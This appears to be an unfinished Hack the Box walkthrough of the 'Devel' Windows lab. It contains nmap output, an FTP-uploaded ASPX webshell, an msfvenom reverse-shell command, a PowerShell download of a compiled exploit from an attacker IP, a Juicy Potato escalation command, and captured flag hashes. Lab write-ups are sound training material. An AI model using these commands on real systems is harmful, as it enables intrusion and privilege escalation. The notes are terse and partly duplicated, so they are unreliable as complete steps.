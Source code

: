 ```yaml
---
title: Devel - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Devel.png
---
```

---
title: Devel - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Devel.png
---
---
title: 2024-10-12-Devel - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Devel.png
---
#windows #manual #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.5 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 16:09 EDT
Nmap scan report for 10.10.10.5
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.94 seconds

```

### Enumeration


##### 21
FTP anonymous![Image](/assets/Screenshot 2024-09-09 at 4.29.40 PM.png)
big nono cve![Image](/assets/Screenshot 2024-09-09 at 4.41.32 PM.png)
FTP upload![Image](/assets/Screenshot 2024-09-09 at 6.25.26 PM.png)
ASP/X vulnerability upon research of version
webshell prompt!![Image](/assets/Screenshot 2024-09-09 at 6.26.19 PM.png)
nishang shell served bby python server (Invokerevtcp)

version information![Image](/assets/Screenshot 2024-09-09 at 6.58.49 PM.png)
Local privesc to fit our needs
![Image](/assets/Screenshot 2024-09-09 at 7.02.07 PM.png)
Compiling notes in exploit db![Image](/assets/Screenshot 2024-09-09 at 7.04.56 PM.png)
update and install mingw-w64
compile `i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`
push from box to target `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:80/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

##### 80
Landing Page ![Image](/assets/Screenshot 2024-09-09 at 4.27.54 PM.png)
Microsoft IIS server 7.5
upload aspx and set up listener
make and move to temp dir to transfer juicy potato and revshell (rev shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9999 -f exe > reverse.exe`)

move files with certutil

set up listener for higher priv shell
use JP to escalate `jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`. Make sur eto use x86 for this box, as its 32 bit.

Boom ![Image](/assets/Screenshot 2024-10-04 at 9.30.24 PM.png)

USER:aeb10d6e0f12af213b3313aaf5d006a3

ROOT:e4c733d153de83f5cb330af1ebc6470e
USER: e1b33ec1245ae20d092a935b35203c7e
